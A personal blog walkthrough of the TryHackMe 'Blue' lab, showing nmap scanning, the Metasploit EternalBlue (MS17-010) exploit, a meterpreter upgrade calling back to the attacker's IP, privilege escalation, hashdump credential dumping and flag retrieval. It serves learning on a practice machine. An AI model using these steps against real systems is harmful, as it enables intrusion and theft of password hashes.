This was my first write-up which I posted on Medium on Aug 28, 2021.
Hello Everyone! I’m Collins, a security researcher. This is an article on how to exploit blue a machine on TryHackMe made by DarkStar7471. 
{kind=link}
DEPLOYING THE MACHINE
To connect to TryHackMe you will need to download the OpenVpn and connect to their VPN. Once connected to their VPN start the machine and we are ready to exploit it. Once you have deployed the machine you would be given an IP address and one hour time (but you can add one hour) as shown in the figure bellow.
{kind=link}
TASK 1: RECON
We shall start our recon by scanning the machine. The command we shall use is nmap -sV -A <TARGET_IP>

{kind=link}
We can manually count the number of ports under 1000 on our nmap scan which is 3.
To know what is this machine vulnerable to we shall run nmap <TARGET_IP>-script vuln and the result should like as figure 3.0

{kind=link}
As we can clearly see the target is vulnerable to ms17–010
TASK 2: GAINING ACCESS
Now the fun part is here where we shall gain full access to our target.
The first thing to do is to launch Metasploit. This is done by writing msfconsole to the terminal as in figure 4.0

{kind=link}
Now we shall use the search feature to search for ms17_010_ which we had earlier found that the target is vulnerable to. The full path of the exploit as found on the search is exploit/windows/smb/ms17_010_eternalblue as shown in the figure 5.0

{kind=link}
Use the show options and see what is required.Set RHOST to your target IP.(shown in figure 6.0)
{kind=link}
With that done, run the exploit…

{kind=link}
We have to background the shell by CTRL + Z or by typing background.

{kind=link}
TASK 3: ESCALATE
Alright, it’s now time to upgrade our shell to meterpreter. We shall find our upgrade module by searching for shell_to_meterpreter as shown in figure 7.1

{kind=link}
Select the post/multi/manage/shell_to_meterpreter by the use of use command as in figure 7.1

{kind=link}
Set LHOST <Your_IP>

{kind=link}
We use sessions -i command to see the current session

{kind=link}
We shall use the run command to get the meterpreter shell.
{kind=link}
Once again use the sessions -i command to see the current session and you’ll notice we have meterpreter shell as in figure 7.4

{kind=link}
Now we shall use set SESSION 2 and start interaction with it.

{kind=link}
Since we have already connected through a meterpreter session to the target machine we can escalate privileges by the using the command getsystem. Use the shell command and run whoami then background the session.
{kind=link}
List all the process by the command ps and migrate to a process that is running at NT AUTHORITY\SYSTEM To migrate we can use migrate -N (name_of_the_process) OR migrate -P (process_ID)
{kind=link}
TASK 4: CRACKING
With our elevated meterpreter shell, run the command hashdump which will dump all of the passwords on the machine as long as we have the correct privileges.
{kind=link}
TASK 5: FINDING FLAGS
FLAG 1
Flag one is located on the root of the machine in which is C:/
cat flag1.txt

{kind=link}
FLAG 2
We shall search for sam location on windows which is C:\Windows\System32\config
cat flag2.txt

{kind=link}
FLAG 3
We shall use the search function to search for flag3
1
2
search -f flag*.txt
cat c:\\Users\\Jon\\Documents\\flag3.txt
#THANKS